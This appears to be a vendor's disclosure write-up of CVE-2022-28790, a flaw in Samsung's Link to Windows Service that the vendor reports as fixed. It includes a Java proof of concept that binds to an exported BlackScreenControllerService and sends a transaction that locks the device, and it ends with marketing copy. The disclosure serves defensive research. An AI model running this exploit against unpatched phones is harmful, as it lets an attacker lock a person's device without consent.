


# Details

<table>
    <tr>
        <td>Name</td>
        <td>Link to Windows Service</td>
    </tr>
    <tr>
        <td>Package name</td>
        <td><code>com.samsung.android.mdx</code></td>
    </tr>
    <tr>
        <td>Reported date</td>
        <td>2022.03.26</td>
    </tr>
    <tr>
        <td>Fixed date</td>
        <td>2022.05.03</td>
    </tr>
    <tr>
        <td>Severity</td>
        <td>Moderate</td>
    </tr>
    <tr>
        <td>Handle</td>
        <td><a href="https://nvd.nist.gov/vuln/detail/CVE-2022-28790">CVE-2022-28790</a> (SVE-2022-0763)</td>
    </tr>
    <tr>
        <td>Reward</td>
        <td>$980</td>
    </tr>
</table>

# Description

Oversecured found an exported service with exposed AIDL interfaces:



Depending on the flags transmitted, the app locked the device.

**Proof of Concept**

```java
private ServiceConnection mServiceConnection = new ServiceConnection() {
    public void onServiceConnected(ComponentName cName, IBinder service) {
        processBinder(service);
    }

    public void onServiceDisconnected(ComponentName cName) {
    }
};

protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);

    Intent i = new Intent();
    i.setClassName("com.samsung.android.mdx", "com.samsung.android.mdx.windowslink.interactor.blackscreen.BlackScreenControllerService");
    bindService(i, mServiceConnection, BIND_AUTO_CREATE);
}

private void processBinder(IBinder binder) {
    try {
        Parcel parcel = Parcel.obtain();
        parcel.writeInterfaceToken("com.samsung.android.mdx.windowslink.interactor.blackscreen.IBlackScreenControllerService");
        parcel.writeBoolean(true);
        parcel.writeBoolean(false);

        Parcel reply = Parcel.obtain();

        binder.transact(2, parcel, reply, 0);
        reply.readException();
    } catch (Throwable th) {
        throw new RuntimeException(th);
    }
}
```

## Conclusion

Mobile app security is more critical than ever in today's digital landscape. As we have shown through our research, even the most reputable brands are not immune to the threat of cyberattacks. 

At Oversecured, we are committed to help our clients stay ahead of the curve with our industry-leading mobile app vulnerability scanning technology. With our comprehensive approach to mobile app security, you can trust that your brand and your users are protected from data breaches and other security threats.

Don't wait until it's too late. [Get a free consultation](https://oversecured.com/contact-us?utm_source=github&utm_medium=article&utm_campaign=samsung2022) and find out how we can help secure your mobile apps. Together, we can build a safer digital world.